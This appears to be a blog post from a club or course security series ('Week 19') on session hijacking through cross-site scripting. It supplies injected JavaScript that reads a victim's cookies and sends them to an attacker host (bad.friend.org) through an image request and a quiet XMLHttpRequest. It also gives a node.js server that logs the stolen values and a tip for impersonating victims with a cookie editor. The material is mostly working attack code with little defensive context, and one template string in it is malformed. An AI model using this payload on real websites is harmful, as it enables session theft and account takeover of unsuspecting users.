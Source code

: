 ```yaml
---
layout: post
title: Session Hijacking
subtitle: Week 19 - data theft over the Internet
tags: [XSS, node, exploit]
---
```


Previously, we have demonstrated how to use [ARP poison](https://github.com/twlinux/club/wiki/Man-in-the-Middle-(MitM)-Attack-%E2%80%93-ARP-Poisoning) attacks to compromise unencrypted communication on local area networks (LAN). The attacks described below are effective over HTTPS traffic from external networks.

# Cookie Stealing

First, you must create an entry point on the vulnerable website with cross-site scripting. Force clients to establish a connection with your server.

## JavaScript Injection

For the code snippet below, we assume your server is accessible at the domain `bad.friend.org`.

{% highlight javascript linenos %}

let yourCookie = encodeURI(document.cookie);

// retrieve an image from the server, but send the victim's cookies as well.
let url = `http://bad.friend.org/picture.jpg?$yourCookies={yourCookie}`;
document.getElementsByTagName('image')[0].src = url;

// AJAX - Unnoticed by the typical user, low-profile payload
url = `http://bad.friend.org/gimmie?yourCookies=${yourCookie}`;
let xhr = new XMLHttpRequest();
xhr.open('GET', url, true);
xhr.send();

{% endhighlight %}

## Basic node.js Server

This is a minimal node.js server that prints HTTP request parameters to standard output.

{% highlight javascript linenos %}

const http = require('http');

http.createServer((req, res) => {

  let i = req.url.indexOf('?');
  if (i !== -1)
    console.log(req.connection.remoteAddress + ' ' + req.url.substring(i));

  res.end('thanks buddy\n');
}).listen(process.env.PORT || 8125);

{% endhighlight %}

You can impersonate victims by spoofing their unique cookie. The Chrome extension [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg) is easy to use.
